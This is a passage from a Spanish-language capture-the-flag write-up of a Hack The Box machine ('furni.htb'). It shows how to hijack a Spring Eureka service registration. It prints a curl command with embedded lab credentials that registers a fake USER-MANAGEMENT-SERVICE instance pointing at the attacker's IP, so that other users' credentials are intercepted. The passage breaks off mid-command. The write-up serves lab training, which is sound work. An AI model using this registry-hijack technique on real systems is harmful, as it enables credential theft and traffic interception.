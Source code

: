 Y de esta manera podremos ver un Panel con información del spring Eureka

![paste](./images/17.jpeg)


## SSRF en Eureka

  
Spring Eureka cuenta con una vulnerabilidad de tipo SSRF en el cual podemos secuestrar una de las instancias existente para obtener credenciales
Cunado entras al Spring Eureka te pide credenciales para poder acceder y posiblemente algún usuario también lo este haciendo por ene vamos a suplantar una instancia y si tenemos suerte podremos obtener otras credenciales de algún otro usuario

  
```bash

❯ curl -X POST http://EurekaSrvr:0scarPWDisTheB3st@furni.htb:8761/eureka/apps/USER-MANAGEMENT-SERVICE \

-H "Content-Type: application/json" \

-d '{

  "instance": {

    "instanceId": "USER-MANAGEMENT-SERVICE",

    "hostName": "10.10.x.x" ,  

    "app": "USER-MANAGEMENT-SERVICE",

    "ipAddr": "10.10.x.x",

    "vipAddress": "USER-MANAGEMENT-SERVICE",

    "secureVipAddress": "USER-MANAGEMENT-SERVICE",

    "status": "UP",

    "port": { "$": 8081, "@enabled": "true" },

    "dataCenterInfo": {

      "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",

      "name": "MyOwn"

    }

  }
```